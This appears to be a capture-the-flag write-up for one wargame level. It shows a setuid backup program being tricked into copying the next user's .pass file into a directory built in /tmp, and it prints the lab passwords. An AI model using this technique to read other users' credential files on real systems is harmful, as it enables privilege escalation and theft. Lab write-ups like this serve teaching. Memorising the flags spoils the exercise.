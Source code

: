 # Level 08
*password : 7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC*

## Analyze

```
scp -P 4242 level08@192.168.56.109:level08 binary/
```

```
$ ./level08 /home/users/level09/.pass
ERROR: Failed to open ./backups//home/users/level09/.pass
```

- try to create `./backups/home/users/level09`
```
$ touch backups/test
touch: cannot touch `backups/test': Permission denied
$ touch test
touch: cannot touch `test': Permission denied
```

- only path where i have permissions : `/tmp`
```
$ cd /tmp
```

- create `backups/home/users/level09/`
```
$ mkdir -p backups/home/users/level09
```

- execute level08
```
$ /home/users/level08/level08 /home/users/level09/.pass
$ cat backups/home/users/level09/.pass
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```
